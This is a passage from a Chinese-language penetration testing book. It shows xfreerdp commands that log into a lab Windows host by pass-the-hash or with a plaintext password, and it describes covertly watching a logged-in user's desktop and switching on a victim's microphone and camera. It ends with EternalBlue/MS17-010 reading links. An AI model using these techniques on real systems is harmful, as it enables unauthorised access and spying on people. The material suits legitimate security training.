正如我们所看到的，此应用程序具有比 Rdesktop 更多的支持功能，并且对于正常访问 Windows 机器来说也是一个很棒的应用程序。可以通过调用文件来构建配置文件，并且可以启动复杂的设置。这些功能中的许多功能超出了本书的范围。让我们看看最有用的标志，`/pth:<password-hash>`。此标志将传递哈希而不是明文密码并登录系统。以下是我用于访问系统的字符串：

```
xfreerdp -v:172.16.42.5 /u:Administrator /pth:aad3b435b51404eeaad3b435b51404ee:23900518f88d6ec5ae40e134fdbb1959 /d:LAB1 
```


如果我们知道密码，我们可以使用以下标志访问系统：

```
xfreerdp -v:172.16.42.5 /u:Administrator /p: 442Night! /d:LAB1  
```

等等，还有更多！

不仅可以使用此应用程序访问远程桌面，而且通过使用 RDP 进入系统并设置远程协助，您可以使用`/assistance:<password>`标志再次使用此应用程序登录，现在您可以观看已登录用户的桌面。只需小心您的鼠标，否则用户会知道您在那里。

通过使用音频和多媒体标志，攻击者可以在远程系统上打开麦克风和摄像头，并对毫无戒心的用户进行*窥探*。当您可以远程访问笔记本电脑时，谁还需要花哨的间谍技术？笔记本电脑现在是窃听器。（人们想知道为什么我在摄像头上贴了创可贴）。

# 摘要

在本章中，您已经学会了如何使用已知漏洞访问系统以及如何使用窃取的凭据在机器之间移动。您已经了解了来自 NSA 的泄露漏洞以及它们的使用方式，以及一些这些漏洞如今在互联网上造成的混乱。

在下一章中，您将学习如何将您的权限从普通用户帐户提升到 SYSTEM 级别访问权限，当您只有普通用户权限时。

# 进一步阅读

永恒之蓝：

+   [`cvedetails.com/cve/CVE-2017-0143/`](https://cvedetails.com/cve/CVE-2017-0143/)

+   [`cvedetails.com/cve/CVE-2017-0144/`](https://cvedetails.com/cve/CVE-2017-0144/)

+   [`cvedetails.com/cve/CVE-2017-0145/`](https://cvedetails.com/cve/CVE-2017-0145/)

+   [`cvedetails.com/cve/CVE-2017-0146/`](https://cvedetails.com/cve/CVE-2017-0146/)

+   [`cvedetails.com/cve/CVE-2017-0147/`](https://cvedetails.com/cve/CVE-2017-0147/)

+   [`cvedetails.com/cve/CVE-2017-0148/`](https://cvedetails.com/cve/CVE-2017-0148/)

+   [`technet.microsoft.com/en-us/library/security/MS17-010`](https://technet.microsoft.com/en-us/library/security/MS17-010)

+   [`zerosum0x0.blogspot.com/2017/04/doublepulsar-initial-smb-backdoor-ring.html`](https://zerosum0x0.blogspot.com/2017/04/doublepulsar-initial-smb-backdoor-ring.html)

+   [`github.com/countercept/doublepulsar-detection-script`](https://github.com/countercept/doublepulsar-detection-script)

+   [`technet.microsoft.com/en-us/library/security/ms17-010.aspx`](https://technet.microsoft.com/en-us/library/security/ms17-010.aspx)

+   [`github.com/worawit/MS17-010`](https://github.com/worawit/MS17-010)

+   [`hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf`](https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf)

+   [`blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/`](https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/)

+   [`github.com/worawit/MS17-010`](https://github.com/worawit/MS17-010)
